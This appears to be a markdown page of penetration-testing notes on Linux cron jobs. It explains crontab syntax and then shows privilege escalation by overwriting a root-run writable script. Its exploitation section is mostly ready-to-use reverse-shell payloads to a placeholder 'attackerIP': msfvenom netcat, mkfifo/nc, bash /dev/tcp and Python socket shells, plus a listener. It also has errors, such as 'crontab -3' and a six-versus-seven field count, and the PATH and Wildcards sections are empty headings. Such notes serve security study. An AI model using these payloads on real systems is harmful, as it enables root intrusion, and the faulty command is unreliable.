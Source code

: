 # Crontab
***

- Cron is a background service that runs continuously and checks crontab files for scheduled jobs.
- Crontabs are configuration files that specifies the schedule for running cron jobs. Each user on a Linux system can have their own crontab.
```sh
# location
ll /etc/crontab

# Edit crontabs
crontab -3
```
- Cronjobs are commands that users want to automate at specified times or intervals.

The cron daemon periodically checks the crontab file to determine if any scheduled cronjobs need to be executed.

## Cronjobs Format
A crontab is essentially a specialized file format that the 'cron' process recognizes, allowing it to execute each line sequentially. Crontabs are structured with six specific values:
```
'#' m h dom mon dow user  command
  '#'					ID
  m						Minute
  h						Hour
  dom					Day of the month
  mon					Month
  dow					Day of the week
  user				User running the command
  command		  Command should be run
```

## Exploitation
### File Permissions
If the attacker manages to overwrite one of the currently running jobs, it can result in the execution of a shell.
#### Example: in a crontabs there is
```
5  *    * * * root    /home/user4/Desktop/task.sh
```
- If you prefer not to specify a value for that particular field, simply use an asterisk (*) instead.

##### Attacker Machine
- Method 1: Msfvenom
```sh
msfvenom -p cmd/unix/reverse_netcat lhost=attackerIP lport=7777 R
  # R means raw output
```
- Set up a netcat listener
```sh
rlwrap nc -nlvp 7777
```

##### Target Machine
Method 1: Overwrite task.sh with the output of msfvenom
```sh
echo 'mkfifo /tmp/eqfjhi; nc AttackerIP 7777 0</tmp/eqfjhi | /bin/sh >/tmp/eqfjhi 2>&1; rm /tmp/eqfjhi' > task.sh
```

- Method 2: Replace task.sh with shell contents
```
#!/bin/bash
bash -i >& /dev/tcp/attackerIP/7777 0>&1
```

- Method 3: Replace task.sh with Python3 contents
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("attackerIP",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'
```

### PATH Environment Variable

### Wildcards
